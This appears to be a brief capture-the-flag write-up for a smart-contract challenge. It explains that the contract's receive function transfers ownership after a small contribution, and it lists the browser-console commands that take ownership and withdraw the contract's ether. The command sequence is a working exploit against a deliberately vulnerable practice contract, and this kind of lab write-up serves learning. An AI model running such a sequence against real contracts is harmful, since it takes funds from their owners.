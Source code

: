 ### Description

The receive function of the contract is the attack point, when contributing more than 0 and then using this function it transfers ownership, after this you can withdraw the funds

## Commands

await contract.contribute({value: 0.01})
sendTransaction({to: instance, from: player, value: 0.0009})
await getBalance(instance) // Has eth
await contract.withdraw()
await getBalance(instance) // Eth has been withdrawed
